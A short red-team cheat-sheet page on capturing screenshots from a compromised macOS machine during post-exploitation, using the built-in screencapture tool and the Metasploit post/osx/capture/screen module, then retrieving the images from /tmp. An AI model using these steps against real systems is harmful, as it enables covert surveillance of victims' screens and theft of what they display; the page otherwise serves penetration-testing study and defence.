 # Screenshot

Search Tag(s): #post-exploitation #enumeration-and-discovery #living-off-the-land #metasploit-framework #osx

### 1.1 - Manual

Mac OSX Screenshot program

```
$ screencapture
```

### 1.2 - Metasploit

You can use a metasploit module as well and if you type `info` you can run a session type that it can be either a regular **Shell** or a **Meterpreter**.

```
msf > use post/osx/capture/screen

msf post(osx/capture/screen) > options

Module options (post/osx/capture/screen):

   Name      Current Setting          Required  Description
   ----      ---------------          --------  -----------
   COUNT     1                        yes       Number of screenshots to collect.
   DELAY     10                       yes       Interval between screenshots in seconds. 0 for no delay
   EXE_PATH  /usr/sbin/screencapture  yes       Path to remote screencapture executable
   FILETYPE  png                      yes       File format to use when saving a snapshot (Accepted: png, gif)
   SESSION                            yes       The session to run this module on
   TMP_PATH  /tmp/<random>            yes       Path to remote temp directory

msf post(osx/capture/screen) > set session <session_id>

msf post(osx/capture/screen) > run
```

Once you've took a screenshot download the file in the compromised Mac OSX machine that was stored in the `/tmp/` folder.

---
## References

- [LOOBins: Screencapture](https://www.loobins.io/binaries/screencapture/)